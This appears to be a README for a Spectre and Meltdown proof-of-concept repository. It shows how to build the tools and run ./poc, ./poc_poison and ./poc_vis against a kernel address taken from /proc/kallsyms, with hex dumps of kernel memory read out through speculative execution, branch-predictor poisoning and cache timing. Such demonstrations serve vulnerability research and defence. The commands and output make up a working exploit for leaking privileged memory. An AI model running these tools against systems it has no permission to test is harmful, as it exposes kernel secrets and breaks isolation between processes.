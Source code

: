 Spectre and Meltdown Proof-of-Concept
=====================================

Read kernel addresses by stalling the pipeline and speculatively hitting a cacheline:

```
$ make
...
$ grep ' sys_call_table' /proc/kallsyms
ffffffff8f800180 R sys_call_table
$ ./poc ffffffff8f800180
0xffffffff8f800180 | 10 40 23 8f ff ff ff ff d0 40 23 8f ff ff ff ff
0xffffffff8f800190 | c0 14 23 8f ff ff ff ff 60 f6 22 8f ff ff ff ff
0xffffffff8f8001a0 | 40 91 23 8f ff ff ff ff 70 91 23 8f ff ff ff ff
0xffffffff8f8001b0 | 50 91 23 8f ff ff ff ff 10 af 24 8f ff ff ff ff
...
```

Read kernel addresses by poisoning the branch predictor and speculatively hitting a cacheline:
```
$ ./poc_poison ffffffff8f800180
cutoff: 192
0xffffffff8f800180 | 10 40 23 8f ff ff ff ff d0 40 23 8f ff ff ff ff
...
```

Visualize memory read timings:
```
$ ./poc_vis ffffffff8f800180
```
